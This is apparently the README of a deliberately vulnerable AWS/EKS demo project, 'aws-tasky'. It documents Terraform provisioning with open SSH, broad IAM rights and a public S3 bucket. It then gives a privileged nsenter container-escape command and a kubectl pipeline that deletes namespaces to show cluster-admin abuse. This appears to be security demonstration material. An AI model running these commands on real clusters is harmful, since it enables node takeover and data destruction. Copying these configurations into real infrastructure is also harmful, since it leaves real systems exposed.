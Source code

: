 # aws-tasky
This repo will build all required AWS Networking and resources to run a 3 tiered MongoDB app.  This includes EC2, EKS, S3, Route53, and AWS Config.

## Pre Reqs
- Setup shell with AWS credentials
- AWS Key Pair
- Terraform 1.3.7+
- aws cli
- kubectl
- helm
- curl
- jq

## Getting Started
```
cd quickstart/infra
```
Update the `my.auto.tfvars` for your environment.  Configure your existing AWS Key Pair or copy a local SSH key to your region using this script `./scripts/push-aws-sshkey-multiregion.sh`. Review the prefix being used for resource names, the EKS version, private zone name for route53, and external  CIDR for SSH access. 

### Provision Infrastructure
Use terraform to build the required AWS Infrastructure
```
terraform init
terraform apply -auto-approve
```
All AWS resources have been provisioned and configured to support the tasky application.

### Resource Overview
While the infrastructure is being provisioned review the resources.

#### VPC
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/locals-usw2.tf#L17)
* [terraform-aws-modules/vpc/aws](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf)
#### EC2
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L54)
* [IAM Profile](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_iam_profile/iam-profile.tf)
    * Actions: "ec2:*","s3:GetObject","s3:PutObject","s3:PutObjectAcl","s3:DeleteObject","s3:ListBucket"
#### Security Groups
  * [EC2](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/main.tf#L30)
    * Ingress: Allow "0.0.0.0/0" -> TCP 22
    * Egress:  Allow "0.0.0.0/0: -> Any Protocol, Any Port
  * [MongoDB](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_sg_mongod/main.tf#L12)
    * Ingress: Allow "10.15.0.0/20" -> TCP 27017
#### Route53
* [mongoDB record](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L82)

#### S3
* [Public bucket](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L115)

#### MongoDB
* [DB build script](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/templates/mongo.sh)
Its recommended to shift left to the Infrastructure pipeline and use Packer to build the mongodb image.  Leverage your standard secrets mgmt solution to configure DB access to avoid leaking sensitive data in the process.  This image was created using Terraform's user_data to keep everything simple and using a single tool.

#### EKS Cluster 1.29
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L129)
* [terraform-aws-modules/eks/aws](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/main.tf#L9)

#### AWS Loadbalancer controller
* [AWS LB controller](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/aws_alb_controller.tf) 
This was installed as a best pratice to support internal NLB or ALBs to EKS services.  The required pulic subnet tags were added as part of the VPC creation to enable the ALB to discover EKS services in the private subnets.

### Connect to EKS clusters
Connect to EKS using `scripts/kubectl_connect_eks.sh`.  Pass this script the path to the terraform state file used to provision the EKS cluster.  If cwd is ./infra like above then this command would look like the following:
```
source ../../scripts/kubectl_connect_eks.sh .
```
This script connects EKS and builds some useful aliases shown in the output.

### Get Ingress URL
```
make getIngress

Tasky URL - http://tasky-ingress-1379807902.us-west-2.elb.amazonaws.com
```

## Tasky Application
* Is it using a good image?
* Does it have cluster-admin privileges?

Install kubectl
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
# Describe rolebinding 
```

Escape into the Node
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

List rolebindings or clusterroleBindings
```
./kubectl describe rolebinding -A
```

## Next Steps


## References
[OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
[OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
[2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
[HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)